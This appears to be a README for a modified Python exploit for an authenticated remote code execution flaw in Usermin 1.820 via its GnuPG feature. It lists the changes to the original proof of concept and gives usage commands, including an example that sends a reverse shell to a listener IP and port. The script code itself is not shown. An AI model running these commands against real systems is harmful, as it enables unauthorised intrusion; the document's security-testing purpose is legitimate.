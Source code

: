 # Usermin 1.820 Remote Code Execution (Authenticated) Exploit

**Original Author:** Numan Türle  
**Original Date:** 27.08.2021  
**Original PoC:** [Usermin 1.820 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50234)  
**Exploit Reference:** [Usermin - Remote Code Execution (Authenticated) (Version 1.820)](https://youtu.be/wiRIWFAhz24)  

---

## Description

This Python script exploits an authenticated remote code execution vulnerability in Usermin `<= 1.820` by abusing the GnuPG functionality to execute arbitrary commands on the target system.

---

## Changes (05/25)

The original script by Numan Türle has been updated to improve usability and reliability. The key changes include:

- Added command-line options for specifying the listener IP (`-lh`) and port (`-lp`) for the reverse shell, replacing the hardcoded values.
- Improved string handling by using `.text` instead of converting raw content bytes to string.
- Simplified login check by using a direct substring check rather than regex.
- Added more robust error handling around the final request that triggers the payload, to gracefully catch and handle expected timeouts or connection drops without printing ugly Python tracebacks.
- Added user-friendly console messages to indicate successful payload submission and expected reverse shell behavior.
- Improved argument parsing to provide guidance and defaults for easier usage.
- Early checks to confirm the key ID extraction before continuing to avoid crashes.
- General code cleanup for readability and maintainability.

---

## Usage

```bash
python3 usermin-rce.py -u <target_ip> -l <username> -p <password> -lh <listener_ip> -lp <listener_port>
```

### Example:

```bash
python3 usermin-rce.py -u 192.168.10.157 -l cassie -p cassie -lh 192.168.20.154 -lp 443
```

## Notes
- Requires Python 3 and the requests library.
- The listener IP and port should correspond to your machine listening for the reverse shell connection.
- The script suppresses SSL warnings for self-signed certificates.

## Disclaimer

Use this script only on systems you have explicit permission to test. Unauthorized access or exploitation is illegal and unethical.
